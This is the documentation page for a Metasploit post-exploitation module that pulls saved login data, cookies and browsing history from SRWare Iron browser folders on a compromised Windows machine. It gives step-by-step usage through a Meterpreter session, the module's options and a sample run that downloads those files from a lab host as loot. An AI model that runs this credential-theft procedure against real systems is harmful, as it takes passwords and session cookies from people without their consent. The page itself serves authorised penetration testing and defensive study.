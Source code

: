 ## Module Description

This post-exploitation module gathers artifacts found on Srware related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/srware
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf post(windows/gather/credentials/srware) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Srware's parent folder found
[*] Srware's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Chromium\User Data\Default\Login Data
[*] Srware Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210521114418_default_192.168.56.106_srwareLoginData_139981.bin

[+] File with data saved:  /root/.msf4/loot/20210521114419_default_192.168.56.106_EXTRACTIONSLogin_290137.bin
[*] Srware's parent folder found
[*] Srware's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Chromium\User Data\Default\Cookies
[*] Srware Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210521114419_default_192.168.56.106_srwareCookies_321317.bin

[+] File with data saved:  /root/.msf4/loot/20210521114419_default_192.168.56.106_EXTRACTIONSCooki_375774.bin
[*] Srware's parent folder found
[*] Srware's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Chromium\User Data\Default\History
[*] Srware History downloaded
[+] File saved to:  /root/.msf4/loot/20210521114420_default_192.168.56.106_srwareHistory_849488.bin

[+] File with data saved:  /root/.msf4/loot/20210521114420_default_192.168.56.106_EXTRACTIONSHisto_063608.bin
[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```
